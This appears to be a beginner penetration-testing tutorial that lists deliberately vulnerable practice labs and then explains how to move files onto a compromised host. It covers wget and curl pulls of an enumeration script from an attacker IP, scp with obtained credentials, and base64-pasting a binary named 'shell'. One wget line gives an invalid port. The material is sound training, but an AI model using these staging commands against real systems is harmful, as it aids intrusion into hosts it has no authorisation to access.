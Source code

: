 # Starting Out
As a beginner in information security, it can be extremely daunting to know where to start. There are many great resources out there for beginners, including free and paid training, purposefully vulnerable machines and labs, tutorial websites, blogs, YouTube channels, etc.

# Resources
When starting, the sheer amount of content available on the web can be overwhelming. Furthermore, it isn't easy to know where to start and the quality of materials available.

## Vulnerable Machines/Applications
There are many resources available to practice common web and network vulnerabilities in a safe, controlled setting. The following are some examples of purposefully vulnerable web applications and vulnerable machines that we can set up in a lab environment for extra practice.

| Name             | Description                                                                                                                                                                           |
| -------------    |:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------:|
| OWASP Juice Shop | Is a modern vulnerable web application written in Node.js, Express, and Angular which showcases the entire OWASP Top Ten along with many other real-world application security flaws. |
| Metasploitable 2 | Is a purposefully vulnerable Ubuntu Linux VM that can be used to practice enumeration, automated, and manual exploitation.                                                            |
| Metasploitable 3 | Is a template for building a vulnerable Windows VM configured with a wide range of vulnerabilities.                                                                                   | 
| DVWA             | This is a vulnerable PHP/MySQL web application showcasing many common web application vulnerabilities with varying degrees of difficulty.                                             | 

# Transferring Files
During any penetration test exercise, it is likely that we will need to transfer files to a remote server, such as enumeration scripts or exploits, or transfer data back to our attack host.

While tools like Metasploit with a Meterpreter shell allow us to use the **Upload** command to upload a file, we need to learn methods to transfer files with a standard reverse shell.

## Using wget
There are many methods to accomplish this. One method is running a Python HTTP server on our machine and then using wget or cURL to download the file on the remote host.

First we go into the directory that contains the file we need to transfer and run a Python HTTP server in it.

```
kieferhax@htb[/htb]$ cd /tmp
kieferhax@htb[/htb]$ python3 -m http.server 8000   

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)
```

Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:

```
user@remotehost$ wget http://10.10.14.1:80000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[=======================>] 144.86K --.- KB/s in 0.02s

2021-02-08 18:09:19 (8.16 MD/s) - 'linenum.sh' saved [14337/14337]
```

Note that we used our IP *10.10.14.1* and the port our Python server runs on **8000**. If the remote server does not have **wget**, we can use **cURL** to download the file:

```
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

## Using SCP
Another method to transfer files would be using **scp**, granted we have obtained ssh user credentials on the remote host. We can do so as follows:

```
kieferhax@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

Note that we specified the local file name after **scp**, and the remote directory will be saved to after the **:**.

## Using Base64
In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine.

In this type of situation, we can use a simple trick to *base64* encode the file into **base64** format, and then we can paste the **base64** string on the remote server and decode it. For example, if we wanted to transfer a binary file called **shell**, we can **base64** encode it as follows:

```
kieferhax@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

Now we can copy this **base64** string, go to the remote host, and use **base64 -d** to decode it, and pipe the output into a file:

```
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

## Validating File Transfers
To validate the format of a file, we can run the **file** command on it:

```
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

As we can see, when we run the **file** command on the **shell** file, it says that it is an ELF binary, meaning that we successfully transferred it. To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash.  On our machine, we can run **md5sum** on it:

```
kieferhax@htb[/htb]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

Now we can go to the remote server and run the same command on the file we transferred:

```
user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

As we can see, both files have the same md5 hash, meaning the file was transferred correctly and without any issues.